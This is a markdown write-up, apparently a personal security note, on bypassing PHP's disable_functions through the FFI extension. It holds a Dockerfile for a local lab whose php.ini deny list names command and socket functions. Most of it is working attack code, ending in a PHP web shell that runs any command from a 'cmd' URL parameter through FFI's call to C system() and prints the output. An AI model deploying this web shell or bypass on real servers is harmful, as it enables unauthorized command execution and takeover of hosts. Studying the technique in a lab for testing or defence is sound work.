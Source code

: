 ```yaml
---
title: PHP - Bypass Disable Functions Using FFI
tags: php disable_functions bypass ffi
---
```


# Description

Recently I faced a situation where most of php functions were disabled ... I rebuilt the environment in a docker container for more accurate debbuging

# Docker setup

## Dockerfile

```
FROM php:8.0-apache

RUN apt update
RUN apt install nano libffi-dev
RUN docker-php-ext-configure ffi --with-ffi
RUN docker-php-ext-install ffi

RUN echo "<?php phpinfo();?>" > phpinfo.php
COPY ffi_bypass.php /var/www/html/ffi_bypass.php

RUN cp /usr/local/etc/php/php.ini-production /usr/local/etc/php/php.ini
RUN sed -i "s|;ffi.enable=preload|ffi.enable=true|g" /usr/local/etc/php/php.ini
RUN sed -i "s|disable_functions =|disable_functions = pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,pcntl_unshare,error_log,system,exec,shell_exec,popen,passthru,link,symlink,syslog,ld,mail,stream_socket_sendto,dl,stream_socket_client,fsockopen|g" /usr/local/etc/php/php.ini

RUN chown -R www-data:www-data /var/www/html/

ENTRYPOINT ["apache2-foreground"]
```

## Build

```
docker build -t phpffi .
```

## Run 

```
docker run --rm -ti -p 8081:80 phpffi
```

The docker container `80` port was exposed to `8081` on my local machine

# PHPInfo

![image](https://user-images.githubusercontent.com/84577967/175967517-1f444bfa-dda2-4a68-9858-db0a007eb157.png)

## Disable Functions List

Yeah ! You probably wondering why he used PHP at first 😆, don't complain please ...

![image](https://user-images.githubusercontent.com/84577967/175967567-28591459-8d33-4b91-b5e5-13e175e6660f.png)

What took my attention that FFI is **enable** !

![image](https://user-images.githubusercontent.com/84577967/177450983-8abfc720-d340-4d9e-a1bc-de89f6a8853c.png)

# Foreign Function Interface (FFI)

## Important note

**This extension is disabled in the default PHP installation.**

![image](https://user-images.githubusercontent.com/84577967/177450600-bb90dca4-c30c-4ca6-9970-e7e5a74d9900.png)

## Introduction

![image](https://user-images.githubusercontent.com/84577967/175815888-f097b514-c0ae-47ef-aee9-01ae58e1c99b.png)

## Bypass disable functions

The FFI extension allow us to call any `C` function, and there is nothing better than calling a command execution function such [system](https://www.tutorialspoint.com/c_standard_library/c_function_system.htm)

![image](https://user-images.githubusercontent.com/84577967/177451478-a105560b-18e3-48af-9ee5-65b67419a098.png)

We have to create a new FFI object using the `cdef` function

![image](https://user-images.githubusercontent.com/84577967/177452813-c9cbf070-cd3a-40c8-85f5-232f7c81417c.png)

After many tries I thought I wasn't able to execute commands but the problem was in printing out the result using `echo, print, ...` that will never work 😛

So I ended up with this small php code to check really if that will create a `test` file

```php
<?php 
$ffi=FFI::cdef("int system(const char *command);");
$ffi->system('echo "test" > test');
?>
```

And it worked !

![image](https://user-images.githubusercontent.com/84577967/177454143-0ac183c1-eb0e-4a25-b8bf-9ee195f5325e.png)


## Final code

The php code below will allow us to execute and print the result of any command

```php
<?php
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    $rand=rand();
    $ffi = FFI::cdef("int system(const char *command);");
    $ffi->system("{$cmd} > /dev/shm/{$rand}");
    echo file_get_contents("/dev/shm/{$rand}");
    $ffi->system("rm /dev/shm/{$rand}");
}
?>
```

And the usage is pretty simple: `http://127.0.0.1:8081/bypass.php?cmd=id`

![image](https://user-images.githubusercontent.com/84577967/177454294-dc030ac4-4c85-4dcb-916a-1649b5a93ed7.png)
